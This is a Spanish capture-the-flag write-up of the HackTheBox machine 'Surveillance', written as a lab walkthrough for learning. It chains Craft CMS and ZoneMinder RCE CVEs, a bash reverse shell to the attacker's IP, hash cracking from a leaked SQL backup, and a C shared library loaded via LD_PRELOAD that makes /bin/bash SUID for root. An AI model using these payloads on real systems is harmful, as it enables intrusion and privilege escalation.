

-------------


Surveillance es una maquina de dificultad media que se encuentra retirada de la plataforma de HackTheBox donde se puede explotar CraftCMS (CVE-2023-41892) RCE, para escalar privilegios primero se hará user pivoting al primer usuario encontrando Information Leakage  y Crackeando  Hash para obtener la contraseña, y para pivotar al segundo usuario haremos uso del exploit (CVE-2023-26035) de ZoneMinder, en escalada de privilegios la haremos con ZoneMinder(secuestro de la biblioteca de objetos compartidos) + Sudoers 

----------------
# [](#header-1)Reconocimiento
Comienzo con un nmap para saber que puertos se encuentran abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.245 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 16:47 -03
Initiating SYN Stealth Scan at 16:47
Scanning 10.10.11.245 [65535 ports]
Discovered open port 22/tcp on 10.10.11.245
Discovered open port 80/tcp on 10.10.11.245
Completed SYN Stealth Scan at 16:48, 24.02s elapsed (65535 total ports)
Nmap scan report for 10.10.11.245
Host is up, received user-set (1.3s latency).
Scanned at 2024-08-27 16:47:59 -03 for 24s
Not shown: 64972 closed tcp ports (reset), 561 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
- *-p-*: escanear todo el rango total de puertos(65535)
- *--open*:Reportar puertos abiertos, ya que los puertos pueden estar cerrado o filtrados.
- *-sS*:TCP SYN port scan, este es un modo para ir de forma rápido agresivo a la vez que sigiloso
- *--min-rate 5000*:Le indicamos que queremos que nos tramite paquetes nomas lento que 5000 paquete por segundo
- *-vvv*: Triple vervose para que puerto que nos detecte abierto nos lo vaya reportando sobre la marcha
- *-n*: Para no aplicar resolución DNS
- *-Pn*: Omitir la prueba de ping y simplemente escanea todos los hosts de destino proporcionados
- *-oG*:Para que nos cree un archivo grepeable, para poder filtrar por lo que nos interese mediante el empleo de expresiones regulares 

Vemos que tenemos el puerto  22 y 80 por lo tanto voy hacer un escaneo mas exhaustivo 

```bash
❯ nmap -p22,80 -sCV 10.10.11.245 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 16:49 -03
Nmap scan report for 10.10.11.245
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
 *-p22,80*: Le indicamos que queremos escanear los puerto 22,80
- *sCV*: Le indicamos con que queremos lanzar un script básicos de reconocimiento y, detectar la versión y servicios que corren para los puertos 20,80 y 8000
- *oN*: Exportarlo en forma normal tal y como nos lo reporta Nmap
Veo que por el puerto 22 esta `SSH` que nos reporta el condéname(8.9p1 Ubuntu 3ubuntu0.4) de Ubuntu y gracias a esto puedo descubrir que estamos frente a un `Ubuntu jammy`, mas de eso por aquí no puedo hacer nada, en el puerto 80 veo que hay una pagina web que nos redirige a `surveillance.htb` por lo tanto a esto lo introduzco en el `/etc/hosts` porque de primera nuestra maquina no sabe lo que es `http://surveillance.htb` 

 

Antes de entrar en la pagina voy a ver que tecnologías corre por detrás de esta pagina web, esto lo hago con `whatweb`
```bash
❯ whatweb http://surveillance.htb/
http://surveillance.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[demo@surveillance.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.245], JQuery[3.4.1], Script[text/javascript], Title[Surveillance], X-Powered-By[Craft CMS], X-UA-Compatible[IE=edge], nginx[1.18.0]
```
Veo que por detrás hay un gestor de contenido que es [Craft CMS](https://www.aplyca.com/blog/craftcms), por lo tanto voy a ver lo que contiene la pagina


Veo que es una pagina estática por que haciendo `hovering`,en home,about,services, contact us todo me lleva dentro de la misma, pagina.
Además de los que nos reporta whatweb, con `Wappalyzer` veo que por detrás esta PHP


Con `gobuster` intentare hacer un descubrimiento de rutas y directorios existentes
```bash
❯ gobuster dir -u http://surveillance.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://surveillance.htb/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://surveillance.htb/images/]
/index.php            (Status: 200) [Size: 16230]
/index                (Status: 200) [Size: 1]
/img                  (Status: 301) [Size: 178] [--> http://surveillance.htb/img/]
/admin                (Status: 302) [Size: 0] [--> http://surveillance.htb/admin/login]
/css                  (Status: 301) [Size: 178] [--> http://surveillance.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://surveillance.htb/js/]
/logout               (Status: 302) [Size: 0] [--> http://surveillance.htb/]
```
Veo que tenemos un ruta `/admin`, esto nos lleva a un login, pruebo con credenciales por defecto, esto no funciona, también pruebo intentar ver si vulnerable a SQLI pero no tuve exito.


En el código fuente de la pagina principal puedo ver la versión de Craft CMS, por lo que veré si hay exploits asociados a esta version


Encuentro [Craft CMS CVE-20323-41892](https://github.com/0xfalafel/CraftCMS_CVE-2023-41892) que nos permite un RCE sin autenticación 


Veo que solo me pide la URL y el exploit si funciona


Por lo tanto para estar mas cómodo me envió una reverse shell, por lo tanto con el oneliner `bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"`, me pongo en escucha por el puerto 443


Una vez echo esto, hago un tratamiento de la TTY para tener una consola totalmente interactiva.

```bash
www-data@surveillance:~/html/craft/web$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@surveillance:~/html/craft/web$
#CTRL+Z
www-data@surveillance:~/html/craft/web$ ^Z
zsh: suspended  nc -nlvp 443
stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
# Hacemos que TERM valga xterm porque de primeras veremos que vale dumb, esto se puede ver con echo $TERM
www-data@surveillance:~/html/craft/web$ export TERM=xterm
# Adecuamos las proporciones, en una ventana aparte puedes ver las proporciones de consola con stty size
www-data@surveillance:~/html/craft/web$ stty rows 29 columns 129
```

### [](#header-3)User-Matthew
Una vez echo esto, empiezo hacer un reconocimiento de la maquina como veo que estoy como www-data y veo que existen dos usuarios, intentare buscar credenciales para uno de los dos usuarios 


Dentro del directorio storage veo que hay un direcotroio backup, donde existe un archivo zip que  contiene una backup de sql por lo tanto lo descomprimo para ver su contenido, y encuentro un hash para el usuario matthew


Lo intentare crackear, primero vere que formato de hash es
```bash
hashcat -a 0 hash
```
Veo que el formato puede ser SHA2-256


Por lo tanto le indico este formato de hash con el parámetro -m
```bash
❯ hashcat -a 0 hash -m 1400 /usr/share/wordlists/rockyou.txt
```


Lo crackea exitosamente por lo que veo la contraseña del usuario matthew, otra forma alternativa para crackear el has seria utilizando [CrackStation](https://crackstation.net/)


Por lo tanto ya puedo acceder como matthew y en su directorio personal puedo ver la flag


```bash
matthew@surveillance:~$ cat user.txt 
********************f5dda8151
```
### [](#header-3)ZoneMinder
Ahora veré la forma de escalar, de primeras no veo nada interesante pero al ver por los puertos que están abiertos, internamente veo que esta abierto el puerto 8080 


Al hacer un curl al localhost por el puerto 8080 veo que existe una pagina de login de [ZoneMinder](https://es.wikipedia.org/wiki/ZoneMinder)


Por lo tanto con SSH hago Local Port Forwarding para que mi puerto 8000 comunique con el puerto 8080 de la maquina victima,ahora ya tenemos accesibilidad al puerto 8080

```bash
❯ ssh -L 8000:127.0.0.1:8080 matthew@10.10.11.245
matthew@10.10.11.245's password:
```

Por lo tanto en el navegador podemos ver por nuestro equipo local por el puerto 8000 vamos a ver el puerto 8080 de la maquina victima. Y vemos la pagina de login


Al intentar ver si se reutiliza la contraseña veo que si se reutiliza la contraseña de matthew para el usuario admin



Como veo la versión de ZoneMinder veré si existe exploit para esta version, existe una exploit que permite la ejecución remota de código (RCE)  


Entonces me lo descargo, le tenemos que pasar la URL, nuestra IP y el puerto por el cual nos vamos a poner en escucha

 

Conseguí acceso como el usuario zoneminder por lo tanto realice un user pivoting por lo tanto ahora hago un tratamiento de la TTY nuevamente
## [](#header-2)Root
Ahora veré la forma de escalar a Root, veo que como este usuario con sudo puedo ejecutar como cualquier usuario sin proporcionar contraseña ejecutar varios script en Perl.


si veo cuales son estos script veo que existen varios, estos scripts deben de estar conectados con el panel de ZoneMinder que vi


Al ver en la sección de configuración que esta en options, veo LD_PRELOAD con esto intentare un secuestro de la biblioteca de objetos compartidos


Veo que la libreria que creemos puede ser cargado con zmdc.pl


veo que es es uno de los script el cual se puede ejecutar con sudo 


Con este script veo que indica que podemos arrancar el demonio, y si hago un check veo que el deminio parado, por lo tanto a esto lo puedo arrancar


Por lo tanto si linkeo una librería maliciosa que haya configurado al iniciar el demonio con sudo nos ejecute esa librería como el usuario root.
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdlib.h>

void _init(){
	setuid(0);
	setgid(0);
	system("chmod u+s /bin/bash");
}
```
- **setuid(0)**:Le indicamos que nos cambie el identificador a 0 para operar como root
- **system**:Para ejecutar el comando que le estamos indicando que en este caso es cambiar el privilegio de la bash a SUID
Por lo tanto compilamos esto para crear esta libreria compartida 
```bash
gcc test.c -fPIC -shared -o shell.so
```
Veo que no encuentra el comando ld esto pasa porque el path no esta completo por lo tanto lo que puedo hacer es exportar mi path que contempla mas rutas


```bash
zoneminder@surveillance:/tmp$ export PATH=/opt/nvim/nvim-linux64/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bi:/usr/local/games:/usr/games:/root/.fzf/bin
```
al hacerlo nuevamente veo que me indica multiples definiciones de init y que la primera vez fue definida en la ruta que nos indica


Entonces para que de prioridad al que he definido dentro del archivo test.c es jugar con -nonstartfiles   
```bash
gcc test.c -fPIC -shared -o shell.so -nostartfiles
```
y con esto ya nos los crea 


Por lo tanto ahora le indicamos la ruta y guardamos 


Al ejecutar el script veremos que el permiso de la bash cambia a SUID


Por lo tanto ahora hacemos bash -p y ya estaríamos como root por lo tanto ya podríamos ver la flag
```bash
zoneminder@surveillance:/tmp$ bash -p
bash: fork: retry: Resource temporarily unavailable
bash: fork: retry: Resource temporarily unavailable
bash-5.1# whoami
root
bash-5.1# cat root.txt 
******************e109a894
```


